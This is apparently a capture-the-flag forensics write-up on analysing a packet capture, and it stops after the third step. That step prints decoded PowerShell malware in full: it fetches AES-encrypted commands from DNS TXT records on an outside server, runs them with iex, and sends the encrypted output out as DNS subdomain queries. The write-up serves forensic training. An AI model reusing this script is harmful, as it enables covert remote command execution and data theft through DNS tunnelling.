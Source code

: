 # Automation
> Write-up author: jon-brandy
## DESCRIPTION:
Vinyr's threat intelligence is monitoring closely all APT groups from every possible galaxy, especially the most dangerous one, longhir. 
As stated by an anonymous threat intelligence officer, the malicious actors tend to automate their initial post-exploitation enumeration so they can have less on-keyboard time. 
You can find such an example in the provided network capture generated by a recent incident. Analyse it and find out what they are up to.
## HINT:
- NONE
## STEPS:
1. First, unzip the `.zip` file given.

![image](https://user-images.githubusercontent.com/70703371/212104427-d1ae4793-d869-4710-b6a5-af4cbe472660.png)


![image](https://user-images.githubusercontent.com/70703371/212104385-f7725ea9-1a52-4212-bb3b-2b533353534f.png)


![image](https://user-images.githubusercontent.com/70703371/212104516-32695053-7d9e-45bd-9a03-30faa31e2150.png)


2. When i traversing through the TCP stream, i found this long base64 strings.

![image](https://user-images.githubusercontent.com/70703371/212208236-ae1fe04b-3351-4eca-b4f0-d6d2959dc57d.png)


3. Let's decode it with cyberchef.

> RESULT

```
function Create-AesManagedObject($key, $IV) {
    $aesManaged = New-Object "System.Security.Cryptography.AesManaged"
    $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::Zeros
    $aesManaged.BlockSize = 128
    $aesManaged.KeySize = 256
    if ($IV) {
        if ($IV.getType().Name -eq "String") {
            $aesManaged.IV = [System.Convert]::FromBase64String($IV)
     
        }
        else {
            $aesManaged.IV = $IV
     

        }
    }
    if ($key) {

        if ($key.getType().Name -eq "String") {
            $aesManaged.Key = [System.Convert]::FromBase64String($key)
        }
        else {
            $aesManaged.Key = $key
        }
    }
    $aesManaged
}

function Create-AesKey() {
  
    $aesManaged = Create-AesManagedObject $key $IV
    [System.Convert]::ToBase64String($aesManaged.Key)
}

function Encrypt-String($key, $unencryptedString) {
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($unencryptedString)
    $aesManaged = Create-AesManagedObject $key
    $encryptor = $aesManaged.CreateEncryptor()
    $encryptedData = $encryptor.TransformFinalBlock($bytes, 0, $bytes.Length);
    [byte[]] $fullData = $aesManaged.IV + $encryptedData
    $aesManaged.Dispose()
    [System.BitConverter]::ToString($fullData).replace("-","")
}

function Decrypt-String($key, $encryptedStringWithIV) {
    $bytes = [System.Convert]::FromBase64String($encryptedStringWithIV)
    $IV = $bytes[0..15]
    $aesManaged = Create-AesManagedObject $key $IV
    $decryptor = $aesManaged.CreateDecryptor();
    $unencryptedData = $decryptor.TransformFinalBlock($bytes, 16, $bytes.Length - 16);
    $aesManaged.Dispose()
    [System.Text.Encoding]::UTF8.GetString($unencryptedData).Trim([char]0)
}

filter parts($query) { $t = $_; 0..[math]::floor($t.length / $query) | % { $t.substring($query * $_, [math]::min($query, $t.length - $query * $_)) }} 
$key = "a1E4MUtycWswTmtrMHdqdg=="
$out = Resolve-DnsName -type TXT -DnsOnly windowsliveupdater.com -Server 147.182.172.189|Select-Object -Property Strings;
for ($num = 0 ; $num -le $out.Length-2; $num++){
$encryptedString = $out[$num].Strings[0]
$backToPlainText = Decrypt-String $key $encryptedString
$output = iex $backToPlainText;$pr = Encrypt-String $key $output|parts 32
Resolve-DnsName -type A -DnsOnly start.windowsliveupdater.com -Server 147.182.172.189
for ($ans = 0; $ans -lt $pr.length-1; $ans++){
$domain = -join($pr[$ans],".windowsliveupdater.com")
Resolve-DnsName -type A -DnsOnly $domain -Server 147.182.172.189
    }
Resolve-DnsName -type A -DnsOnly end.windowsliveupdater.com -Server 147.182.172.189
}
```
